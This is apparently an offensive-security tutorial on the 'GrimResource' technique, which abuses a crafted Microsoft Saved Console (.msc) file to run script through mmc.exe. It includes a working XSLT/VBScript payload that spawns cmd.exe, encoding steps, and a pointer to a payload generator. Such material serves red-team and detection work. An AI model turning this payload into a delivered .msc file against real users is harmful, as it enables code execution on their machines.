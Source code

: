 A technique [discovered by Elastic](https://www.elastic.co/security-labs/grimresource), dubbed 'GrimResource', uses a specially crafted `.msc` (Microsoft Saved Console) file and an unpatched XSS flaw to trigger JavaScript code execution via the Microsoft Management Console (mmc.exe).  An example MSC can be found [here](https://gist.github.com/joe-desimone/2b0bbee382c9bdfcac53f2349a379fa4).  The weaponised portion is on [line 105](https://gist.github.com/joe-desimone/2b0bbee382c9bdfcac53f2349a379fa4/961d997c169e4315c2eb0cc6a1af795dd685c550#file-grimresource-msc-L105), which is VBScript wrapped in a stylesheet, then URL-encoded.

We could utilise a similar looking payload to spawn cmd.exe:
```xml
<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript">
    <![CDATA[
        Set wshshell = CreateObject("WScript.Shell")
        wshshell.run "C:\\Windows\\System32\\cmd.exe"
]]></ms:script>
</stylesheet>
```

URL encode the payload using a tool like [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode\(false\)&input=PD94bWwgdmVyc2lvbj0nMS4wJz8%2BDQo8c3R5bGVzaGVldA0KICAgIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L1hTTC9UcmFuc2Zvcm0iIHhtbG5zOm1zPSJ1cm46c2NoZW1hcy1taWNyb3NvZnQtY29tOnhzbHQiDQogICAgeG1sbnM6dXNlcj0icGxhY2Vob2xkZXIiDQogICAgdmVyc2lvbj0iMS4wIj4NCiAgICA8b3V0cHV0IG1ldGhvZD0idGV4dCIvPg0KICAgIDxtczpzY3JpcHQgaW1wbGVtZW50cy1wcmVmaXg9InVzZXIiIGxhbmd1YWdlPSJWQlNjcmlwdCI%2BDQogICAgPCFbQ0RBVEFbDQogICAgICAgIFNldCB3c2hzaGVsbCA9IENyZWF0ZU9iamVjdCgiV1NjcmlwdC5TaGVsbCIpDQogICAgICAgIHdzaHNoZWxsLnJ1biAiQzpcXFdpbmRvd3NcXFN5c3RlbTMyXFxjbWQuZXhlIg0KXV0%2BPC9tczpzY3JpcHQ%2BDQo8L3N0eWxlc2hlZXQ%2B&ieol=CRLF&oeol=CRLF), then paste the encoded string onto line 105.

```xml
xsl.loadXML(unescape("<ENCODED SCRIPT HERE>"))
```

There are also a few automated tools that can help generate basic MSC payloads, such as [MSC_Dropper](https://github.com/ZERODETECTION/MSC_Dropper).